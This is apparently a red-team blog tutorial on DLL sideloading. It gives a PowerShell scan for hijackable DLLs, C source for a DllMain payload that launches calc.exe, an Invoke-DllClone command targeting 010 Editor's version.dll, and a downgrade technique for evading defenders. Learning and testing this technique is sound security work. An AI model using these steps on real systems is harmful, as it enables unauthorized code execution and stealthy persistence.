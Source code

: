 Title: DLL-Sideloading Attack: A Fast How-To
Date: 2023-06-09 22:00
Category: Red
Tags: Koppeling, DLL, Sideload, Sideloading, Red-Team, Windows

## What is DLL-Sideloading

In this guide, we will provide a quick overview of a DLL-sideloading attack and demonstrate how it can be executed.
Dynamic link libraries (DLLs) are loaded by the operating system (OS) when an application starts. There are two main methods of loading DLLs, and we focus on those that are specified only by name and not by an absolute path.

DLLs without a specified path are searched by the OS. The OS has a defined search order, which can vary depending on certain settings such as Safe-DLL. To determine the specific search order for your system, you can conduct a search or refer to relevant documentation.

## The Attack

If we can successfully place our own loaded DLL in a directory that is part of the search order and is positioned earlier than the original file, our DLL will be loaded along with the program. It is crucial to note that we must have write access to the directory in order to accomplish this.

## Tools

### siofra
There is a tool that is able to search for these kinds of vulnerabilities I like:
It is [siofra](https://github.com/Cybereason/siofra).

Consider the following powershell script from [here](https://twitter.com/ShitSecure/status/1566126264469098497/photo/1). For 32-bit exchange the Siofra.exe

```powershell
Get-ChildItem -Path "C:\Program Files\" -Filter *.exe -Recurse -File -Name | ForEach-Object{
    mkdir C:\temp\hijacktest
    $binarytoCheck = "C:\Program Files\" + $_
    C:\Tools\siofra\Siofra64.exe --mode file-scan --enum-dependency --dll-hijack -f $binarytoCheck >> C:\temp\hijacktest\toCheck.txt
}
```

Generally the output can be considered in two parts, the binary analysis shows which dlls might be attackable with an exlamation mark:

![picture 1](../../images/49369742dbe0ea41b57696a371613a5574117beee51a7cf96318b04763785fb5.png)  

In the next section it will analyse the probable attackable libraries and gives an exploitabilty suggestion:
![picture 2](../../images/38019f07c834ac302e5f4c84eba042d7d9a2836f8f507832967946b3a8177bda.png)  

Here you can see, which dll's one would have to place and where.
A nice next step would be to get which of the vulnerable marked locations are writeable to us.

### Koppeling

When placing a DLL with our attack code, we quickly realize the need to provide all the functions that the main binary wants to import from the library. This challenge is addressed by using [koppeling](https://github.com/monoxgas/Koppeling). 

Koppeling is a tool that allows us to provide the original desired DLL and our attacker code separately. It facilitates the merging of these components, ensuring that all the required functions are available for the application.

I use [Invoke-DLLClone](https://github.com/jfmaes/Invoke-DLLClone), which uses Koppeling inside, since I had problems with the original code. Then we just need some dll code like this:

```
#include <windows.h>
#include "pch.h"

DWORD WINAPI fireLazor(LPVOID lpParameter) {
	WinExec("calc.exe", 0);
	return 0;
}

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD ul_reason_for_call,
    LPVOID lpReserved) {
    HANDLE threadHandle;

    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
        threadHandle = CreateThread(NULL, 0, fireLazor, NULL, 0, NULL);
        CloseHandle(threadHandle);

    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

### Example

I will attack 010 editor. As we saw before, its version.dll is vulnerable.

Compile the source code from above with Visual Studio as a DLL library and run

```
Invoke-DllClone -Source C:\Windows\System32\version.dll -target C:\Users\you\source\repos\Dll1\x64\Release\urname.dll -output version.dll -sign
```

Placing it in the same directory as 010 editor and running it will cause this:

![picture 3](../../images/aed4d3a15b0f37c3c97b5f5b5ba5a23b950a4742a951ec51dae51ae7a9594800.png)  


## Downgrading

Most of the time, I consider myself to be in a lower privileged position and contemplate injecting my code somewhere. However, there is another attack against DLL sideloading known as downgrading. This attack may be challenging or ineffective in low-privilege situations, but it becomes particularly interesting in higher privilege scenarios.

With downgrading, we can replace a DLL with a known vulnerable version. If the other imported functions remain intact, the loading process will succeed (although there may be cases where the output of the functions has changed, resulting in runtime issues, but this is not very common).

A downgraded attack-code-free DLL is extremely difficult for the blue team to track. In fact, it can even be an officially signed DLL. Of course, it's essential to have an appropriate exploit to make use of this technique, so keep that in mind.